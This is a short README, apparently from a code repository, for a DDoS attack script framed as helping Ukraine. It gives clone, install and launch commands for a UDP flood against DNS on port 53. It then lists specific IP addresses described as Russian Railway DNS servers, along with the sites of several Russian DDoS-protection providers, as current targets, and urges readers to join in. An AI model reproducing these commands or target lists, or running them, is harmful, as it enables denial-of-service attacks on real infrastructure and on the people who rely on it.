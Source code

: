

<h1 align="center">DDoS Attack Script to help Ukraine</h1>




<p align="center">You are advised to use a vpn! Please attack only russian websites.</p>





### Getting Started

If you dont have metasploit or any other tool you can use this tool

**Clone and Install Script**

```console
git clone https://github.com/carlostkd/DoS_Attack.git
cd DoS_Attack
pip3 install -r requirements.txt
```

**Launch Script**



* Server/Home:
```console
python3 start.py udp <ip>:53 1 100
```

currently dns targets make them cry!
```console
Killing Russian Railway please join!

217.175.155.100 : 53 UDP
217.175.155.12 : 53 UDP
217.175.140.71 : 53 UDP

https://ddos-guard.net/ru
https://stormwall.pro/
https://qrator.net/ru/
https://solidwall.ru/
194.54.14.185:53
194.54.14.187:53
194.67.7.1:53
194.67.2.109:53
```







